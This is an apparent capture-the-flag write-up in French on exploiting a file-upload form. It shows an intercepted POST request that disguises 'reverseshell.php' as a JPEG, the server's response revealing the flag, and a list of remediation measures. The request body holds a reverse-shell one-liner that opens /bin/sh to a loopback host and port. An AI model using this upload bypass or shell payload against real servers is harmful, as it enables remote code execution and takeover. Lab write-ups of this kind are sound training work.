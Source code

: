 # Upload exploit 

## Exploitation

Lors d'un upload de fichier la requete POST qui suit comprend plusieurs parametres qui sont checkés tels que :
	filename 
	Content-Type
	le magic-byte

Pour bypass un upload de fichier nous allons avoir besoin de BurpSuite pour interrompre l'envoi de la requete et la modifier a la volée
On changeras le contenu de l'image pour y mettre du code en php (par exemple) et on garderas le Content-Type de facon a ce que le serveur croie recevoir une image.

http://192.168.122.55/?page=upload

request :
```
POST /?page=upload HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------118712806221434122761445428627
Content-Length: 545
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=upload
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

-----------------------------118712806221434122761445428627
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------118712806221434122761445428627
Content-Disposition: form-data; name="uploaded"; filename="reverseshell.php"
Content-Type: image/jpeg

php -r '$sock=fsockopen("127.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

-----------------------------118712806221434122761445428627
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------118712806221434122761445428627--
```

response :
```
<pre>
<center>
	<h2 style="margin-top:50px;">
	The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
	</h2>
<br/>
<img src="images/win.png" alt="" width=200px height=200px>
</center>
</pre>
<pre>
	/tmp/index.php succesfully uploaded.
</pre>
```

## Resolution

Restreindre les types de fichiers acceptés pour le téléchargement: 
	- vérifiez l'extension du fichier et autorisez uniquement le téléchargement de certains fichiers. 
	- Utilisez une approche de liste blanche au lieu d'une liste noire. 
	- Recherchez les extensions doubles telles que .php.png. 
	- Recherchez les fichiers sans nom de fichier comme .htaccess (sur ASP.NET, recherchez les fichiers de configuration comme web.config). 
	- Modifiez les autorisations sur le dossier de téléchargement afin que les fichiers qu'il contient ne soient pas exécutables. 
	- Si possible, renommez les fichiers téléchargés.
